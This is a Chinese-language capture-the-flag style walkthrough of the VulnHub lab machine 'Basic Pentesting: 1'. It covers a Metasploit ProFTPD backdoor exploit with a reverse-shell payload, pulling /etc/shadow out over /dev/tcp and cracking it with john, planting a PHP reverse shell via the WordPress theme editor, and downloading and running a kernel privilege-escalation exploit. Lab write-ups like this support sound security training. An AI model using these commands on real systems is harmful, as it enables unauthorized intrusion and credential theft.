# Basic Pentesting: 1 Writeup

這是一台來自 [VulnHub](https://www.vulnhub.com/entry/basic-pentesting-1,216/) 的 Linux 靶機，名稱為 `Basic Pentesting: 1`，由 `Josiah Pierce` 發布於 `2017-12-08`。

## 目錄

- [Basic Pentesting: 1 Writeup](#basic-pentesting-1-writeup)
  - [目錄](#目錄)
  - [靶機基礎資訊](#靶機基礎資訊)
  - [攻擊鏈摘要](#攻擊鏈摘要)
  - [資訊收集](#資訊收集)
  - [路線一：利用 ProFTPD Backdoor 直接取得 root](#路線一路利用-proftpd-backdoor-直接取得-root)
  - [延伸驗證：導出雜湊並透過 SSH 取得 root](#延伸驗證導出雜湊並透過-ssh-取得-root)
  - [路線二：利用 WordPress 後台取得 shell 並提權](#路線二利用-wordpress-後台取得-shell-並提權)
  - [參考來源](#參考來源)

## 靶機基礎資訊

- 平台：VulnHub
- 靶機名稱：`Basic Pentesting: 1`
- 作者：`Josiah Pierce`
- 發布日期：`2017-12-08`
- 系列：`Basic Pentesting`
- 類型：`boot2root`
- 難度定位：作者描述為適合新手的入門靶機
- 目標：遠端攻擊目標主機並取得 `root` 權限
- 下載檔名：`basic_pentesting_1.ova`
- 作業系統：`Linux`
- 虛擬機格式：`VirtualBox - OVA`
- 建議環境：作者以 `VirtualBox` 測試，也提到可能可在 `VMware` 上運作
- 網路設定：`DHCP enabled`，IP 會自動分配



## 攻擊鏈摘要

- 先對同網段進行主機掃描，找出目標 IP 與開放服務。
- 從 `nmap` 掃描中確認 `21`、`22`、`80` 三個主要入口。
- 在 `FTP` 路線中，利用 `ProFTPD 1.3.3c` 的已知 backdoor 直接取得 `root` shell。
- 進一步從該 shell 導出 `/etc/passwd` 與 `/etc/shadow`，破解出 `marlinspike` 的密碼，並驗證可透過 `SSH` 搭配 `sudo` 取得 `root`。
- 在 `HTTP` 路線中，先透過目錄枚舉找到 `/secret` 的 WordPress 站點，再修正 `hosts` 後登入 `wp-admin`。
- 最後透過佈署 `php-reverse-shell` 取得 `www-data` shell，並利用 Ubuntu `16.04` 對應的本機提權 exploit 拿到 `root`。

## 資訊收集



- 由於目標與攻擊機位於同一個虛擬網段，因此先使用 `arp-scan` 對整個網段進行探測。
- 測試環境中的目標 IP 為 `192.168.0.233`。

```bash
sudo arp-scan --localnet
```



- 針對可疑主機做進一步掃描後，可以看到這台機器主要開啟：
- `21/tcp`：`FTP`
- `22/tcp`：`SSH`
- `80/tcp`：`HTTP`
- 掃描結果同時揭露 `FTP` 服務版本為 `ProFTPD 1.3.3c`，這是後續非常關鍵的線索。

```bash
nmap 192.168.0.233 -A
```

## 路線一：利用 ProFTPD Backdoor 直接取得 root



- 先嘗試以 `anonymous` 登入 `FTP`，但並沒有成功，因此不能直接從匿名存取下手。

```bash
ftp 192.168.0.233
```



- 因為 `nmap` 已經確認版本為 `ProFTPD 1.3.3c`，可以直接在 `msfconsole` 中搜尋對應模組。
- 搜尋結果顯示 `exploit/unix/ftp/proftpd_133c_backdoor` 可用。



- 設定好 `RHOSTS`、`LHOST` 與 `payload` 後執行 exploit，便能直接拿到 `root@vtcsec` shell。
- 這條路線本身已經足以完成靶機目標。

```text
msfconsole
search ftpd 1.3.3c
use exploit/unix/ftp/proftpd_133c_backdoor
set RHOSTS 192.168.0.233
set payload cmd/unix/reverse
set LHOST 192.168.0.138
run
```

## 延伸驗證：導出雜湊並透過 SSH 取得 root



- 既然已經有 `root` shell，就可以把 `/etc/passwd` 與 `/etc/shadow` 導出回攻擊端。
- 你的筆記裡是用 `netcat` 監聽，搭配 `/dev/tcp/<IP>/<PORT>` 的方式將檔案送回本機。



- 使用 `unshadow` 合併後，再交給 `john` 破解，最後得到帳號密碼：
- `marlinspike / marlinspike`

```bash
unshadow passwd shadow > pass_ssh
john pass_ssh
```



- 利用這組帳號密碼可成功透過 `SSH` 登入系統。

```bash
ssh marlinspike@192.168.0.233
```



- 登入後執行 `sudo -l`，可以確認 `marlinspike` 擁有完整 `sudo` 權限。
- 因此只要 `sudo su` 就能切換成 `root`。

```bash
sudo -l
sudo su
```

- 也就是說，除了 FTP backdoor 之外，這台機器還存在一條可以透過密碼破解與 `sudo` 取得 `root` 的驗證路線。

## 路線二：利用 WordPress 後台取得 shell 並提權



- 直接查看 `80` port 首頁時，只會看到 Apache 預設頁面，乍看之下沒有明顯線索。



- 進一步以 `dirsearch` 枚舉目錄後，可發現 `/secret/` 路徑。

```bash
dirsearch -u http://192.168.0.233 -x 403,404
```



- 進入 `/secret/` 後，可以看到一個 WordPress 網站 `My secret blog`。



- 在站內進一步點擊連結時，會跳出找不到 `vtcsec` 的錯誤，代表這個站點依賴特定的主機名稱解析。


- 因此在本機 `/etc/hosts` 中加入：
- `192.168.0.233 vtcsec`



- 修正後再次瀏覽站點，就能正常打開 WordPress 頁面，也能看到登入連結。



- 在登入頁面嘗試弱密碼 `admin / admin`，成功登入 WordPress 後台。



- 登入後可以進入 `wp-admin` 控制台，表示這個站點存在預設或弱密碼問題。



- 接著在 `Appearance > Editor > footer.php` 中，將原始內容替換為 `pentestmonkey` 的 `php-reverse-shell`：
- [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)



- 攻擊端先以 `nc` 監聽，然後切換頁面重新觸發 `footer.php`，即可收到來自目標主機的 reverse shell。
- 取得的初始身份為 `www-data`。

```bash
nc -lvnp 1234
```



- 進入 shell 後，以 `whoami` 和 `uname -a` 確認目前身份與系統版本。
- 可得知系統為 `Ubuntu 16.04.3 LTS`，核心版本為 `4.10.0-28-generic`。

```bash
whoami
uname -a
```



- 依照系統版本查找本機提權方式，最終選用 `45010.c` 這支 exploit。

```bash
searchsploit ubuntu 16.04 privilege escalation
```



- 在攻擊端開啟 HTTP 服務後，於靶機下載 `45010.c`、編譯並執行。
- 成功後即可取得 `root` 權限。
- 最後再用 Python 升級成互動式 shell，操作上會比較方便。

```bash
# attacker
python -m http.server 8888

# target
cd /tmp
wget http://192.168.0.138:8888/45010.c
gcc 45010.c -o pe
chmod +x pe
./pe
python -c "import pty; pty.spawn('/bin/bash')"
```

## 參考來源

- VulnHub: [Basic Pentesting: 1](https://www.vulnhub.com/entry/basic-pentesting-1,216/)
- PentestMonkey: [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
